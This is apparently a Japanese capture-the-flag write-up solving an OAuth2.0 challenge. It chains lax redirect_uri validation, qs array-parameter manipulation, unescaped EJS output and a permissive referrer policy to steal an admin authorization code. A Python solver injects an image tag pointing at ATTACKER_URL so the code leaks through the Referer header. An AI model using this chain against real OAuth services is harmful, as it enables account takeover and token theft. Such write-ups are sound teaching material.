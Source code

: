 # writeup

OAuth2.0の詳細については[RFC 6749](https://www.rfc-editor.org/rfc/rfc6749)を参照。

`server`の実装を見ると、`redirect_uri`の検証部分が不適切であり、任意のクエリパラメータを含めることが可能。
```:.js
if (!client.redirect_uris.includes(redirectUrl.origin+redirectUrl.pathname)) {
    res.status(400).json({ error: "invalid_request", error_description: "invalid redirect_uri" });
    return;
}
```

`server`の`/approve`エンドポイントでは入力の`redirect_uri`にクエリパラメータとして認可コード`code`が追加され、そのURLにリダイレクトがなされる。
```:.js
redirectUrl.searchParams.append("code", code.value);
res.redirect(redirectUrl.href);
```

`server`では`app.use(bodyParser.urlencoded({ extended: true }));`が設定されており、`body`の解析に`qs`ライブラリが使用されるため、`body`として送信できるオブジェクトが柔軟に操作できる。また、`server`の`/token`エンドポイントでは`body`として送信される`code`の値が`Array`の場合に、最後の要素がアクセストークンの発行に使用され、削除される。

```:.js
const codeValue = Array.isArray(req.body.code)? req.body.code.slice(-1)[0] : req.body.code;
const code = codes.get(codeValue);
...
codes.delete(code.value);
```

そして、`server`のReport機能を用いると`server`の`/auth`エンドポイントにクエリパラメータを付与して送信することができ、リダイレクト先の同意画面にて`admin`のユーザー名とパスワードが入力され送信される。つまり、ここでは`admin`用に認可コードが発行され、アクセストークンとの交換に使用するために消費される。

```:.js
await page.goto(SERVER_URL + "/auth" + query, {
    waitUntil: "networkidle2",
    timeout: 3000, 
}); 
await page.waitForSelector("input[name=username]");
await page.type("input[name=username]", USERNAME);
await page.type("input[name=password]", PASSWORD);
await page.click("input[name=approved]");
```

ここで、`redirect_uri`のクエリパラメータとして`code`を送信することで、guest用に発行された認可コードを消費させ、admin用に発行された認可コードを消費させないことを試みる。この場合、通常は後からクエリパラメータに追加されるadmin用に発行された`code`が配列の最後の要素となる。

```
> qs.parse('code=guest-code&code=admin-code')
{ code: [ 'guest-code', 'admin-code' ] }
> qs.parse('code[2]=guest-code&code=admin-code')
{ code: [ 'guest-code', 'admin-code' ] }
```

しかし、以下のようにすると、guest用に発行された`code`を配列の最後の要素にすることができる。これでguest用に発行された認可コードを消費させ、admin用に発行された認可コードを消費させないことが可能となる。あとは、admin用に発行された認可コードを含むURLを窃取することが求められる。

```
> qs.parse('code[2]=guest-code&code=hoge&code=admin-code')
{ code: [ 'hoge', 'admin-code', 'guest-code' ] }
```

ここで`client`の`index.ejs`では`scope`の値の表示に`<%- %>`が使用されており、値がエスケープされずに表示される（[参考](https://github.com/mde/ejs#features)）。

```:.ejs
<% if(scopes) { %>
    <p>Your Permissions:</p>
    <ul>
        <% scopes.forEach(function(scope) { %>
            <li><%- scope %></li>
        <% }); %>
    </ul>
<% }; %>
```

CSPが設定されており、javascriptを用いてURLを窃取することは不可能であるが、HTMLインジェクションは可能である。

```:.js
app.use(function(req, res, next) {
  const nonce = crypto.randomBytes(8).toString("hex");
  req.nonce = nonce; 
  res.setHeader("Content-Security-Policy", `script-src 'nonce-${nonce}' https://maxcdn.bootstrapcdn.com https://ajax.googleapis.com; connect-src 'self'; base-uri 'self';`);
  return next();
});
```

また、`index.ejs`に`<meta name="referrer" content="no-referrer-when-downgrade">`が設定されており、このページから遷移した際のRefererリクエストヘッダにクエリパラメータを含むフルのURLが送信される（[参考](https://developer.mozilla.org/ja/docs/Web/HTTP/Headers/Referrer-Policy)）。

最終的に以下のスクリプトを用いて生成したURLをReport機能で送信することで、admin用に発行された認可コードを得ることができる。

```:.py
import requests
import re
import os
import urllib

def solve():
    CLIENT_URL = os.environ["CLIENT_URL"]
    SERVER_URL = os.environ["SERVER_URL"]
    ATTACKER_URL = os.environ["ATTACKER_URL"]

    s = requests.Session()

    auth_params = {
        "response_type": "code",
        "client_id": "oauth-client",
        "state": "state",
        "scopes": f'<img/src="{ATTACKER_URL}">',
        "redirect_uri": f'{CLIENT_URL}/callback'
    }
    auth_response = s.get(f"{SERVER_URL}/auth", params=auth_params)

    approve_data = {
        "approved": "true",
        "username": "guest",
        "password": "guest"
    }
    approve_response = s.post(f"{SERVER_URL}/approve", data=approve_data, allow_redirects=False)
    match = re.search(r'code=([0-9a-f]{32})', approve_response.text)
    guest_code = match.group(1)

    query_param = {
        "response_type": "code",
        "client_id": "oauth-client",
        "state": "state",
        "scopes": "email profile",
        "redirect_uri": f"{CLIENT_URL}/callback?code[2]={guest_code}&code=hoge"
    }
    fishing_url = SERVER_URL + "/auth?" + urllib.parse.urlencode(query_param)
    print(fishing_url)

if __name__ == "__main__":
    solve()
```

あとは、admin用に発行された認可コードを使用してadmin用のアクセストークンを取得してflagを得る。

```:.py
callback_param = {
    "state": "state",
    "code": admin_code
}
callback_response = s.post(f"{CLIENT_URL}/callback", params=callback_params)
flag_response = s.get(f"{CLIENT_URL}/flag")
print(flag_response)
```

```
Congratulations! Here's your flag: ctf4b{J00_4re_7HE_vUlN_cH41n_m457eR_0F_04U7H}
```